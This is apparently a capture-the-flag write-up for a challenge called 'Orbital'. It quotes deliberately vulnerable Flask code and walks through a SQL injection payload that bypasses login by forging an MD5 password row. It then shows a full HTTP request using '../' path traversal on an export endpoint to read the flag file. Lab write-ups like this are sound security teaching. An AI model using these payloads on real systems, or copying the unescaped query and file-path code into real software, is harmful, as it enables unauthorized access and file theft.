

# Orbital

We can look at the source to bypass initial login page

```python
# From database.py
def login(username, password):
    # I don't think it's not possible to bypass login because I'm verifying the password later.
    user = query(f'SELECT username, password FROM users WHERE username = "{username}"', one=True)

    if user:
        passwordCheck = passwordVerify(user['password'], password)

        if passwordCheck:
            token = createJWT(user['username'])
            return token
    else:
        return False
        
# From util.py
def passwordVerify(hashPassword, password):
    md5Hash = hashlib.md5(password.encode())

    if md5Hash.hexdigest() == hashPassword: return True
    else: return False
```

We can return a fake sql row as `user` and pass it into `passwordVerify` through the following SQL injection in the username.

`" OR 1=2 UNION ALL SELECT "admin", "5f4dcc3b5aa765d61d8327deb882cf99`

We set the password to the md5 hash of any password we input which in this case is just `password`

Logins to this page



The source shows the flag is in a .txt file, and so we must leak that file somehow. Looking further in the source we find this.

```python
@api.route('/export', methods=['POST'])
@isAuthenticated
def exportFile():
    if not request.is_json:
        return response('Invalid JSON!'), 400
    
    data = request.get_json()
    communicationName = data.get('name', '')

    try:
        # Everyone is saying I should escape specific characters in the filename. I don't know why.
        return send_file(f'/communications/{communicationName}', as_attachment=True)
    except:
        return response('Unable to retrieve the communication'), 400
```

Which is called from clicking on the export buttons for the different communications.

We can then just pass the path to the flag, to download the flag, which can be found in the dockerfile.

```dockerfile
# copy flag
COPY flag.txt /signal_sleuth_firmware
COPY files /communications/
```

Final post request

```http
POST /api/export HTTP/1.1
Host: 167.172.50.208:30318
Content-Length: 36
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36
Content-Type: application/json;charset=UTF-8
Accept: */*
Origin: http://167.172.50.208:30318
Referer: http://167.172.50.208:30318/home
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,id;q=0.8
Cookie: session=eyJhdXRoIjoiZXlKaGJHY2lPaUpJVXpJMU5pSXNJblI1Y0NJNklrcFhWQ0o5LmV5SjFjMlZ5Ym1GdFpTSTZJbUZrYldsdUlpd2laWGh3SWpveE5qYzVNekV6T1RNNWZRLjBhZnAwRS1XN2NncndjRzJmM1BXNnFiUV9oa0stUlR0cTljbE9iWDh4VW8ifQ.ZBf3sw.icsTlq6Yq_kJooobampsHz1Pl3E
Connection: close

{
    "name" : "../signal_sleuth_firmware"
}
```

HTB{T1m3_b4$3d_$ql1_4r3_fun!!!}